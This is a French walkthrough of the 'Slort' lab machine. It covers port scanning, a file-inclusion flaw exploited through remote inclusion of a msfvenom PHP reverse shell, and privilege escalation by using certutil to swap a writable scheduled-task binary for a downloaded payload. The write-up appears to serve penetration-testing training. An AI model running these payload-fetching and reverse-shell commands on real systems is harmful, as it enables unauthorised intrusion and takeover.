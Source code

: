   # Slort

	sudo masscan -p1-65535,U:1-65535 192.168.240.53 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.240.53 -oN nmap.txt
	feroxbuster --silent -u http://192.168.240.53:8080
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	21/tcp open ftp FileZilla ftpd 0.9.41 beta  
	135/tcp open msrpc Microsoft Windows RPC  
	139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
	445/tcp open microsoft-ds?  
	3306/tcp open mysql?  
	4443/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)  
	5040/tcp open unknown  
	8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)  
	49664/tcp open msrpc Microsoft Windows RPC  
	49665/tcp open msrpc Microsoft Windows RPC  
	49666/tcp open msrpc Microsoft Windows RPC  
	49667/tcp open msrpc Microsoft Windows RPC  
	49668/tcp open msrpc Microsoft Windows RPC  
	49669/tcp open msrpc Microsoft Windows RPC

L'URL http://192.168.240.53:8080/site/ redirige sur http://192.168.240.53:8080/site/index.php?page=main.php et cela semble être la vraie racine du site. La structure de l'URL fait directement penser à de l'inclusion de fichiers. 

J'ai essayé  http://192.168.240.53:8080/site/index.php?page=../../../../../Windows/System32/drivers/etc/hosts et cela a fonctionné, j'ai pu lire le fichier hosts de la machine. Il n'y a apparemment pas de SSH sur cette VM donc impossible de lire des clés RSA. Il me reste deux principales options : lire les pages PHP avec un wrapper, ou une RFI. 

J'ai d'abord testé la RFI juste parce que c'est l'option la plus simple à vérifier, mais cela a fonctionné : 

	echo "test" >> test.txt
	python -m http.server 8000
	...
	curl "http://192.168.240.53:8080/site/index.php?page=http://192.168.45.194:8000/test.txt"

J'ai voulu injecter une backdoor classique mais je n'ai pas réussi à trouver le dossier où elle atterrissait. Injection d'un reverse-shell à la place : 
	
	msfvenom -p php/reverse_php LHOST=192.168.45.194 LPORT=443 -f raw > rev.php
	...
	curl "http://192.168.240.53:8080/site/index.php?page=http://192.168.45.194:8000/rev.php"
	...
	msfconsole -x "use exploit/multi/handler;set payload php/reverse_php;set LHOST 192.168.45.194;set LPORT 443;run;"
	...
	powershell -ep bypass
	whoami
	type C:\Users\rupert\Desktop\local.txt

### Élévation de privilèges : 

En fouillant dans le C:\ on trouve un dossier "Backup" contenant quelques informations ainsi qu'un service apparemment lancé toutes les 5 minutes. On a les droits d'écriture dans le dossier, c'est donc un simple remplacement de service : 

	cd C:\Backup
	ren TFTP.exe TFTP.exe.old
	certutil.exe -urlcache -f http://192.168.45.194:8000/msfvenom.exe C:\Backup\TFTP.exe

On reçoit la connexion quelques minutes après : 

	rlwrap nc -nvlp 443
	...
	whoami
	type C:\Users\Administrator\Desktop\proof.txt
